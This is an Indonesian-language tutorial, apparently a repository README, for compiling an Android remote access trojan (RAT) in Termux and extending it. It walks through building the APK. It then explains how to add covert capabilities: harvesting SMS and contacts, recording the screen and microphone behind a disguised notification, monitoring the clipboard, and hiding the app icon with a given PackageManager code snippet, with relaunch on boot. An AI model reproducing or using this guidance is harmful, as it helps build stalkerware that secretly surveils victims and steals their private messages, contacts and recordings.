 # Tutorial Build Aplikasi Android RAT di Termux

Dokumen ini adalah panduan langkah demi langkah untuk meng-compile (build) source code sampel Android RAT menjadi file `.apk` yang bisa diinstal. Semua proses ini dilakukan di dalam [Termux](https://termux.com/) di perangkat Android Anda.

**Penting:** Anda memerlukan koneksi internet yang stabil dan ruang penyimpanan yang cukup (sekitar 1-2 GB) karena proses ini akan mengunduh banyak file.

## Langkah 1: Persiapan Lingkungan di Termux

Buka Termux dan jalankan perintah-perintah berikut satu per satu untuk menginstal semua alat yang diperlukan.

1.  **Update & Upgrade Paket:**
    ```bash
    pkg update && pkg upgrade
    ```

2.  **Instal OpenJDK-17 (Java Development Kit):**
    Gradle memerlukan Java untuk berjalan. Kita akan menginstal OpenJDK versi 17.
    ```bash
    pkg install openjdk-17
    ```

3.  **Instal Git (untuk meng-clone proyek):**
    ```bash
    pkg install git
    ```

## Langkah 2: Mengunduh Source Code

1.  **Clone Proyek Ini:**
    Anda perlu meng-clone repositori yang berisi bot dan source code sampel Android.
    ```bash
    git clone <URL_REPOSITORI_ANDA>
    ```
    Ganti `<URL_REPOSITORI_ANDA>` dengan URL Git dari proyek Anda.

2.  **Masuk ke Direktori Proyek:**
    Setelah selesai, masuk ke direktori source code Android.
    ```bash
    cd nama-repositori-anda/android_rat_source
    ```

## Langkah 3: Melakukan Build Aplikasi

Sekarang Anda berada di direktori yang benar dan semua alat sudah terinstal.

1.  **Memberikan Izin Eksekusi pada Gradle Wrapper:**
    Skrip `gradlew` perlu izin agar bisa dijalankan.
    ```bash
    chmod +x ./gradlew
    ```

2.  **Menjalankan Proses Build:**
    Gunakan Gradle Wrapper untuk memulai proses build. Perintah ini akan secara otomatis mengunduh versi Gradle yang sesuai dan semua dependensi yang diperlukan, lalu meng-compile kode menjadi file `.apk`.
    ```bash
    ./gradlew assembleDebug
    ```
    Proses ini mungkin akan memakan waktu cukup lama (bisa 5-15 menit atau lebih) saat pertama kali dijalankan, tergantung pada kecepatan internet dan perangkat Anda. Harap bersabar.

## Langkah 4: Menemukan File .apk

Jika proses build berhasil, Anda akan melihat pesan `BUILD SUCCESSFUL` di akhir output.

File `.apk` yang sudah jadi akan berada di direktori berikut:

`app/build/outputs/apk/debug/app-debug.apk`

Anda bisa menavigasi ke sana atau menyalinnya ke direktori lain menggunakan perintah:

```bash
cp app/build/outputs/apk/debug/app-debug.apk ~/storage/downloads/
```

Perintah di atas akan menyalin file `app-debug.apk` ke folder "Downloads" di penyimpanan internal ponsel Anda, sehingga lebih mudah ditemukan dan diinstal.

## Langkah 5: Mengembangkan Lebih Lanjut

Source code yang diberikan adalah kerangka dasar. Untuk menambahkan fungsionalitas penuh (seperti mengambil SMS, kontak, rekam layar, dll.), Anda perlu mengedit file-file Java di dalam direktori `app/src/main/java/com/example/androidrat/` menggunakan editor teks (seperti `nano` atau `vim` di Termux, atau editor kode di PC).

Setiap kali Anda mengubah kode, Anda hanya perlu kembali ke direktori `android_rat_source` dan menjalankan kembali perintah `./gradlew assembleDebug` untuk membuat `.apk` versi baru.

## Langkah 6: Konsep Implementasi Fitur

Berikut adalah beberapa petunjuk dan konsep untuk mengimplementasikan fitur-fitur yang diinginkan di dalam file `MainActivity.java` atau di dalam sebuah `Service`.

### Mendapatkan SMS & Kontak
- **API:** Gunakan `ContentResolver` untuk melakukan query ke `Telephony.Sms.CONTENT_URI` untuk SMS dan `ContactsContract.CommonDataKinds.Phone.CONTENT_URI` untuk kontak.
- **Izin:** Pastikan izin `READ_SMS` dan `READ_CONTACTS` sudah ada di `AndroidManifest.xml` dan diminta saat runtime jika target Android versi 6.0 (Marshmallow) ke atas.

### Merekam Layar (Screen Record)
- **API:** Ini adalah fitur yang paling kompleks. Anda akan memerlukan `MediaProjectionManager` untuk mendapatkan izin dari pengguna untuk merekam layar.
- **Foreground Service:** Proses perekaman harus dijalankan di dalam sebuah `Foreground Service` agar tidak dimatikan oleh sistem. Service ini akan menampilkan notifikasi permanen (yang bisa disamarkan) selama perekaman berlangsung.
- **MediaRecorder:** Gunakan kelas `MediaRecorder` untuk mengkonfigurasi sumber video (dari `MediaProjection`), output format, encoder, dan file tujuan.
- **Izin:** `FOREGROUND_SERVICE`, `RECORD_AUDIO`.

### Merekam Mikrofon (Mic Record)
- **API:** Sama seperti rekam layar, gunakan `MediaRecorder`. Namun, sumber audionya adalah `MediaRecorder.AudioSource.MIC`.
- **Izin:** `RECORD_AUDIO`.

### Mengambil Clipboard
- **API:** Gunakan `ClipboardManager` untuk mengakses data clipboard.
- **Listener:** Anda bisa membuat `ClipboardManager.OnPrimaryClipChangedListener` untuk mendapatkan notifikasi setiap kali clipboard berubah. Ini biasanya dilakukan di dalam sebuah `Service` yang berjalan di latar belakang.

### Mode Siluman (Stealth Mode)
- **API:** Gunakan `PackageManager` untuk menonaktifkan komponen `MainActivity` setelah aplikasi pertama kali dijalankan.
  ```java
  PackageManager p = getPackageManager();
  ComponentName componentName = new ComponentName(this, com.example.androidrat.MainActivity.class);
  p.setComponentEnabledSetting(componentName, PackageManager.COMPONENT_ENABLED_STATE_DISABLED, PackageManager.DONT_KILL_APP);
  ```
- **Pemicu:** Aplikasi perlu cara lain untuk dipicu setelah ikonnya disembunyikan, misalnya melalui broadcast receiver yang merespons event sistem seperti boot (`BOOT_COMPLETED`) atau koneksi internet.
